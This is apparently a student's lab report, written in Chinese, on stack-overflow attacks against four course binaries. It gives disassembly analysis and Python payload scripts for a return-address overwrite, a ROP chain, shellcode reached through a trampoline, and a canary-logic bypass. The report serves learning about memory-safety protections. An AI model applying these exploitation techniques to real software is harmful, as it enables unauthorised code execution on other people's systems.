




# 栈溢出攻击实验

2024201545 齐贺一
## 题目解决思路

### Problem 1: 
- **分析**：

main函数开始，建立栈帧，保存形参，调用puts输出提示语，然后打开./problem1 <file>格式的文件，读取文件内容到main上的缓冲区，补'\0'作字符串用，关闭文件后调用func(buf)，[rbp-0x110]就是buf处内容，也即栈上的字符串，strcpy(dst, src)不检查长度直至遇到\x00，所以只需要文件里放置足够长的字节，覆盖缓冲区和saved rbp即可，在return address处重写返回地址进入func1函数。func1 的地址：0x401216，按照小端序前面填充16字节'A'即可。目标地址与原返回地址只有低三字节需要修改，避免payload中出现 0x00导致strcpy提前终止。
```c
40121e:	bf 04 20 40 00       	mov    $0x402004,%edi
401223:	e8 98 fe ff ff       	call   4010c0 <puts@plt>
```
这里的输出是0x402004就是指向"Yes!I like ICS!"成功。
```c
402000 01000200 59657321 49206c69 6b652049  ....Yes!I like I
402010 43532100 446f2079 6f75206c 696b6520  CS!.Do you like 
402020 4943533f 00557361 67653a20 2573203c  ICS?.Usage: %s <
```

- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
```python
padding = b"A" * 16
payload = padding + b"\x16\x12\x40"  

with open("ans1.txt", "wb") as f:
    f.write(payload)
```
- **结果**：附上图片


### Problem 2:
- **分析**：...
main前半段与problem1类似，func内部使用memcpy函数，拷贝长度固定为0x38字节，所以payload必须至少覆盖到返回地址，并且整体布局必须落在前0x38字节里。
func2中接受参数在rdi并存储到栈上，与0x3f8比较，跳转到func2。
```c
  401225:	81 7d fc f8 03 00 00 	cmpl   $0x3f8,-0x4(%rbp)
  40122c:	74 1e                	je     40124c <func2+0x36>
  40122e:	48 8d 05 d3 0d 00 00 	lea    0xdd3(%rip),%rax        # 402008 <_IO_stdin_used+0x8>
  401235:	48 89 c7             	mov    %rax,%rdi
  401238:	b8 00 00 00 00       	mov    $0x0,%eax
  40123d:	e8 8e fe ff ff       	call   4010d0 <printf@plt>
  401242:	bf 00 00 00 00       	mov    $0x0,%edi
  401247:	e8 d4 fe ff ff       	call   401120 <exit@plt>
  40124c:	48 8d 05 e8 0d 00 00 	lea    0xde8(%rip),%rax        # 40203b <_IO_stdin_used+0x3b>
  401253:	48 89 c7             	mov    %rax,%rdi
  401256:	b8 00 00 00 00       	mov    $0x0,%eax
  40125b:	e8 70 fe ff ff       	call   4010d0 <printf@plt>
```
```c
00000000004012bb <pop_rdi>:
  4012bb:	f3 0f 1e fa          	endbr64
  4012bf:	55                   	push   %rbp
  4012c0:	48 89 e5             	mov    %rsp,%rbp
  4012c3:	48 89 7d f8          	mov    %rdi,-0x8(%rbp)
  4012c7:	5f                   	pop    %rdi
  4012c8:	c3                   	ret
  4012c9:	90                   	nop
  4012ca:	5d                   	pop    %rbp
  4012cb:	c3                   	ret
```

pop rdi; ret 会将栈上的值弹出，赋值给 rdi，然后跳转到栈上存放的下一个地址。
Nxenabled，栈不可执行，无法像问题一一样直接栈上执行，需要利用已经存在的指令控制。
构造ROP链，通过栈溢出覆盖返回地址，然后用pop_rdi函数设置rdi的值跳转到func2打印字符串。
ROP 链的组成：padding16字节，覆盖到func返回地址，然后放入pop_rdi地址设置rdi的值，然后0x3f8作为pop rdi弹出的传参值，最后返回地址设置为func2地址。
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
```python
import struct
p64 = lambda x: struct.pack("<Q", x)
#p64 是用来将 64 位地址转换为小端字节序格式的函数
padding = b"A" * 16                
pop_rdi_ret = p64(0x4012c7)         
arg = p64(0x3f8)                    
func2 = p64(0x401216)              

payload = padding + pop_rdi_ret + arg + func2
#memcpy拷贝固定长度为0x38字节
payload = payload.ljust(0x38, b"B") 
with open("ans2.txt", "wb") as f:
    f.write(payload)
```
- **结果**：附上图片


### Problem 3: 
- **分析**：...
本题考虑栈地址随机化意味着无法硬编码跳转地址，但是可以利用jmp_xs函数以及func对rsp的保存绕过这个保护。程序动态保存栈指针saved_rsp，jmp_xs用这个值进行相对计算，无论如何随即加载，缓冲区内部相对偏移量不变。
```c
0000000000401334 <jmp_xs>:
  ...
  40133c:	48 8b 05 cd 21 00 00 	mov    0x21cd(%rip),%rax        # 读取全局变量 saved_rsp 到 rax 
  401343:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  401347:	48 83 45 f8 10       	addq   $0x10,-0x8(%rbp)       # 将读取的值加 0x10 ->saved_rsp在rbp-0x30，memcpy的dst是 lea -0x20(%rbp),差 0x10
  40134c:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  401350:	ff e0                	jmp    *%rax                  # 跳转到计算出的地址
```
```c
0000000000401355 <func>:
  ...
  40135a:	48 89 e5             	mov    %rsp,%rbp       # 设置栈底指针 rbp
  40135d:	48 83 ec 30          	sub    $0x30,%rsp      # 分配 0x30 字节的栈空间
  ...
  401365:	48 89 e0             	mov    %rsp,%rax       # 将当前的 rsp (即 rbp-0x30) 放入 rax
  401368:	48 89 05 a1 21 00 00 	mov    %rax,0x21a1(%rip) # 将 rax 保存到全局变量 saved_rsp (地址 403510)
```

要实现的汇编代码是：
```c
mov edi, 0x72          参数 = 114    bf 72 00 00 00
mov rax, 0x401216      目标函数地址   48 b8 16 12 40 00 00 00 00 00
call rax               调用 func1    ff d0
```

* 正常的栈：
[ Buffer (32字节) ]  <-- 局部变量
[ saved rbp (8字节) ] <-- 保存调用者的栈基址
[ Return Address ]   <-- 保存 main 函数中 call func 下一条指令的地址

* 攻击后：
[ Shellcode (17字节) ]
[ Padding (20字节)   ]  <-- 填满 Buffer
[ Fake rbp (8字节)   ]  <-- 填满 saved rbp
[ jmp_xs 的地址 ]      <-- 覆盖了原本的返回地址

当func返回时，跳转到jmp_xs，计算出缓冲区在栈上的实际地址，然后跳回缓冲区开头，存放mov edi, 114; call func1机器码，实现简单的赋值和跳转。
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
```python
import struct
p64 = lambda x: struct.pack("<Q", x)

func1 = 0x401216       
jmp_xs = 0x401334      

stub  = b"\xbf\x72\x00\x00\x00"          # mov edi, 114
stub += b"\x48\xb8" + p64(func1)         # mov rax, func1
stub += b"\xff\xd0"                      # call rax
buf = stub.ljust(0x20, b"\x90")          

payload  = buf
payload += b"B"*8                         # 覆盖saved rbp
payload += p64(jmp_xs)                    # 覆盖返回地址 -> jmp_xs
payload = payload.ljust(0x40, b"C")

with open("ans3.txt","wb") as f:
    f.write(payload)

```
- **结果**：附上图片


### Problem 4: 
- **分析**：体现canary的保护机制是什么
```c
136c: 64 48 8b 04 25 28 00    mov    %fs:0x28,%rax   从 fs 段寄存器偏移 0x28 处读取 Canary (随机值)
1375: 48 89 45 f8             mov    %rax,-0x8(%rbp)  将 Canary 放入栈底 (rbp-0x8)
```
程序在栈帧初始化后，立即在 rbp-0x8 的位置放置了一个随机值（Canary）。这个位置正好位于局部变量和返回地址之间。在函数ret之前，再次从 %fs:0x28 读取该值，并使用 sub 指令与栈上的值进行比较。如果两者不一致（说明发生了溢出，Canary 被覆盖），程序将调用 __stack_chk_fail 终止运行。

```c
140e: 64 48 2b 04 25 28 00    sub    %fs:0x28,%rax    再次读取 Canary 并与栈上的值相减
1417: 74 05                   je     141e            如果结果为 0 (不变)，跳转到正常退出
1419: e8 b2 fc ff ff          call   10d0 <__stack_chk_fail@plt>   否则调用报错函数
```
若像之前直接覆盖返回地址会先覆盖掉金丝雀值，终止程序。
```c
13aa: 3b 45 f0                cmp    -0x10(%rbp),%eax         比较 (输入值) 和 (0xfffffffe)
13ad: 73 11                   jae    13c0 <func+0x63>          关键跳转！jae 是无符号比较
```
输入-1，-1补码是0xffffffff (4294967295) > 0xfffffffe，成功跳转。

```c
13c0: c7 45 ec 00 00 00 00    movl   $0x0,-0x14(%rbp)         循环计数器 i = 0
...
13d1: 8b 45 ec                mov    -0x14(%rbp),%eax         取 i
13d4: 3b 45 f0                cmp    -0x10(%rbp),%eax         比较 i 和 0xfffffffe
13d7: 72 f0                   jb     13c9 <func+0x6c>         如果 i < 0xfffffffe，继续循环
```
这个循环后最终得到的结果是初始值减去0xfffffffe。

```c
13d9: 83 7d e8 01             cmpl   $1,-0x18(%rbp)            检查减完后的值是否等于 1
13dd: 75 06                   jne    13e5                     不等于则失败
13df: 83 7d f4 ff             cmpl   $0xffffffff,-0xc(%rbp)    检查原始备份是否等于 -1
13e3: 74 11                   je     13f6 <func+0x99>         等于则跳转到通关
...
13f6: b8 00 00 00 00          mov    $0x0,%eax
13fb: e8 1c ff ff ff          call   131c <func1>              成功，调用 func1
```

- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
```c
-1
```
- **结果**：附上图片

## 思考与总结
* 深入理解了No-Execute保护(栈不可执行，传统的编写机器码失效)，ASLR (地址空间布局随机化)(栈地址不固定，无法硬编码跳转目标)，Stack Canary (栈金丝雀)(及时监察栈是否被溢出破坏)这些保护原理具体如何工作。
* 学习了基础的进攻手段，覆盖返回地址实现跳转到攻击函数，利用ROP链调用程序现有代码片段进行寄存器传参和函数调用，使用残留的特殊函数(jmp_xs)和寄存器状态，编写相应机器码实现赋值跳转，利用逻辑漏洞只选取特定输入即可实现攻击。
* `strcpy`、`scanf`、`memcpy` 等函数大多缺乏边界检查，今后写代码需要注意。

## 参考资料
《CSAPP》
列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
